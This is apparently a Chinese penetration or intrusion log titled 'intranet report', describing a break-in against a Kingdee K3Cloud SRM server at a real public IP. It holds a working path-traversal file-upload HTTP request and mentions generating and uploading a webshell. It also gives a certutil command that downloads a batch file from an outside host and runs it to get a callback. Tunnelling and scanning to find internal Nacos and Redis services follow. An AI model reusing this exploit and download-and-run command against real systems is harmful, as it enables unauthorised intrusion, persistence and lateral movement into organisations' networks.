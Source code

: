 ```yaml
---
icon: pen-to-square
date: 2025-06-29
tags: 
title: 内网报告
category:
  - 项目
---
```

POC
```http
POST /k3cloud/SRM/ScpSupRegHandler HTTP/1.1
Host: 59.45.53.150:9888
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=zsqxokga
Accept-Encoding: gzip
Content-Length: 276

--zsqxokga
Content-Disposition: form-data; name="dbId_v"

.
--zsqxokga
Content-Disposition: form-data; name="FID"

2022
--zsqxokga
Content-Disposition: form-data; name="FAtt"; filename="../../../../uploadfiles/ccc.txt"
Content-Type: text/plain

ccc

--zsqxokga--
```

生成马
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250629095227.png)

上传成功
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250629095206.png)

```bash
certutil.exe -urlcache -split -f http://110.42.44.69:8084/swt C:\Users\Public\run.bat && C:\Users\Public\run.bat
```
上线命令

建立隧道，扫描内网


内网nacos服务
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250629100811.png)


发现内网redis数据库

